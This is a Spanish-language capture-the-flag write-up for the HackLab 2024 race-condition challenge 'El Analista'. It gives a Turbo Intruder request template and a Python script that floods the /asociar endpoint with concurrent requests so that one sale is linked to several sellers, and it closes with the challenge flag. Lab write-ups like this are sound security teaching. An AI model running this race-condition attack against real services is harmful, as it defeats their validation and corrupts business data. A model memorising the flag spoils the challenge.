




# Desafío 32 - El Analista (HackLab 2024)

**Plataforma:** HackLab (SoftwareSeguro)  
**Edición:** HackLab 2024  
**Categoría:** Condiciones de carrera  

## Análisis

El servidor no permite asociar una venta a más de un vendedor. Sin embargo, la validación tiene una condición de carrera: si se envían múltiples peticiones concurrentes antes de que el servidor actualice el estado, es posible asociar la misma venta a varios vendedores simultáneamente.

**Estructura JSON observada:** tanto ventas como vendedores tienen un campo booleano `asociado`. El endpoint `/asociar` hace POST con `id_venta` e `id_vendedor`.

## Explotación

Se instala la extensión **Turbo Intruder** en Burp Suite.

Se envía la petición de Asociar a Turbo Intruder y se modifica:

```http
POST /asociar/ HTTP/2
Host: [tu host aquí]
Content-Type: application/json
Content-Length: 34

{"id_venta":"%s","id_vendedor":"%s"}
```

> El `%s` es la sintaxis de Turbo Intruder para indicar los valores que se van a reemplazar.





Se adapta el script de Turbo Intruder para usar **Multiple Parameters** (Cluster Bomb):

```python
def queueRequests(target, wordlists):
    # Inicialización del motor
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=5,
                            requestsPerConnection=100,
                            pipeline=False,
                            engine=Engine.THREADED)

    # Listas de IDs como variables locales (los IDs deben ser strings)
    ventas = ['1', '2', '3', '4']
    vendedores = ['1', '2', '3']

    # Generar todas las combinaciones (Cluster Bomb)
    for vendedor in vendedores:
        for venta in ventas:
            # El primer %s -> 'venta', el segundo %s -> 'vendedor'
            payloads = [venta, vendedor]
            engine.queue(target.req, payloads)


def handleResponse(req, interesting):
    # Solo añadir a la tabla los que resultaron en éxito (código 200)
    if req.response_status == 200:
        table.add(req)
```










## Flag

```
db1ab6987f0624b58ae72fa69aba4d14
```
